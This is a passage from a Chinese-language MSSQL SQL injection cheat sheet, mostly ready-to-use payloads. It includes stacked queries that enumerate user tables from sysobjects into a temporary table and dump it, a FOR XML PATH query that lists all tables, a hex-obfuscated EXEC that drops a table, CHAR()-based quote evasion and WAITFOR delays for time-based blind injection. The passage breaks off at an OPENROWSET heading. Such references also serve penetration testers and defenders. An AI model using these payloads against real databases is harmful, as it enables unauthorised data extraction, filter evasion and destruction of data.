 以下三个查询将创建一个临时的表/列，并将用户定义的表插入其中。然后它将展示表的内容并删除这个表。

`Create Temp Table/Column and Insert Data:`

	创建一个临时的表/列并插入数据
	AND 1=0; BEGIN DECLARE @xy varchar(8000) SET @xy=':' SELECT @xy=@xy+' '+name FROM sysobjects WHERE xtype='U' AND name>@xy SELECT @xy AS xy INTO TMP_DB END;

`Dump Content`

	AND 1=(SELECT TOP 1 SUBSTRING(xy,1,353) FROM TMP_DB);

`Delete Table`

	AND 1=0; DROP TABLE TMP_DB;

一个更简单的方法适用于`MSSQL 2005`以及高版本。`XML`函数`path`用作连接器，允许一个查询检索所有的表。

	SELECT table_name %2b ', ' FROM information_schema.tables FOR XML PATH('')	SQL Server 2005+

__注意__

可以使用十六进制编码混淆攻击

	' AND 1=0; DECLARE @S VARCHAR(4000) SET @S=CAST(0x44524f50205441424c4520544d505f44423b AS VARCHAR(4000)); EXEC (@S);--


#### 逃逸引号

	SELECT * FROM Users WHERE username = CHAR(97) + CHAR(100) + CHAR(109) + CHAR(105) + CHAR(110)


#### 字符串连接

	SELECT CONCAT('a','a','a'); (SQL SERVER 2012)
	SELECT 'a'+'d'+'mi'+'n';

#### 条件声明

	IF
	CASE

__例子__

	IF 1=1 SELECT 'true' ELSE SELECT 'false';
	SELECT CASE WHEN 1=1 THEN true ELSE false END;

__注意__

IF不能应用在`SELECT`查询里面。

#### 时间

	WAITFOR DELAY 'time_to_pass';
	WAITFOR TIME 'time_to_execute';

__例子__

	IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';

#### OPENROWSET 攻击
